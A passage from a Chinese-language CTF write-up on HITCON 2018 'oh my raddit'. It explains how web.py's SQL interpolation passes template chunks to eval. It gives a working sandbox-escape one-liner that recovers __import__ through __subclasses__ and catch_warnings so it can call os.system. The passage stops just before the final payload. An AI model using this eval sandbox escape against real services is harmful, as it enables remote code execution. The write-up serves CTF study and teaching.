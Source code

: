```python

    if pos < len(format): 
        chunks.append((0, format[pos:]))
    return chunks
```

函数_interpolate的目的就是为了把格式化的sql语句例如:`a= ${s} and b= $s`变为为一个list

`[(0, 'a= '), (1, 's'), (0, ' and b= '), (1, 's')]`，然后通过eval函数来获取后面dictionary定义的命名空间中变量的值：

```python
for live, chunk in _interpolate(string_):
    if live:
        v = eval(chunk, dictionary) # dictionary = {"s":"test"}
        result.append(sqlquote(v))
    else: 
        result.append(chunk)
```

只看上面的代码，任意代码执行，非常简单了：

```python
In [16]: eval("__import__('os').getcwd()",{'s':"test"})
Out[16]: '/Volumes/data/ctf/2018hitcon/oh_my_raddit'
```

但是上面有一个操作：

```
# disable builtins to avoid risk for remote code exection.
 dictionary['__builtins__'] = object()
```

把dictionary命名空间中的内建模块给替换掉了，所以导致`__import__`找不到了。

```python
In [28]: a["__builtins__"] = object()

In [29]: eval("__import__('os').getcwd()",a)
---------------------------------------------------------------------------
NameError                                 Traceback (most recent call last)
<ipython-input-29-47f22339b750> in <module>()
----> 1 eval("__import__('os').getcwd()",a)

<string> in <module>()

NameError: name '__import__' is not defined
```

但是这个很显然可以通过绕过没有内建模块的python沙箱的方法绕过这个限制:

```python
eval("[item for item in [].__class__.__bases__[0].__subclasses__() if item.__name__=='catch_warnings' ][0]()._module.__builtins__['__import__']('os').system('pwd')",a)
```

payload如下：
